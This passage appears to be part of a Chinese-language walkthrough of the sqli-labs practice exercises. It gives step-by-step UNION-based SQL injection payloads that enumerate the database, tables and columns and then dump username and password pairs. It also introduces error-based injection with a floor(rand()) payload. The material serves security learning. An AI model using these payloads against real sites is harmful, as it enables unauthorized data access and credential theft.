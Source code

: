 2. 获取数据库

   ```
   ?id=0' union select 1,2,database() --+	
   ```

   库名为：security

3. 获取表

   ```
   ?id=0' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema="security" --+
   ```

   表名有：emails,referers,uagents,users

4. 获取字段

   ```
   ?id=0' union select 1,2,group_concat(column_name) from information_schema.columns where table_name="users"--+
   ```

   字段有：id,username,password,level,id,username,password

5. 取值

   ```
   ?id=0' union select 1,2,group_concat(username,':',password) from users--+
   ```



### less 5-6

#### 类型：

**less-5~6**分别为**有==报错==回显的SQL注入**

#### 解题方法

==报错注入==

常用有3种，报错注入共**有9种**，分别是：

1. **floor()和rand()**

   floor(x)，也写做Floor(x)，其功能是“向下取整”，或者说“向下舍入”即取不大于x的最大整数

   rand函数不是真正的随机数生成器，而srand()会设置供rand()使用的随机数种子。如果你在第一次调用rand()之前没有调用srand()，那么系统会为你自动调用srand()。而使用同种子相同的数调用 rand()会导致相同的随机数序列被生成

   **条件：**floor(rand(0)*2)报错是有条件的，**记录必须3条以上**，而且在3条以上必定报错

   **能查询字符串的最大长度为64个字符**

   ```
   union select count(*),2,concat('~',(select database()),'~',floor(rand()*2))as a from information_schema.tables group by a --+
   ```

   [floor()函数报错分析](https://blog.csdn.net/cried_cat/article/details/80022378)
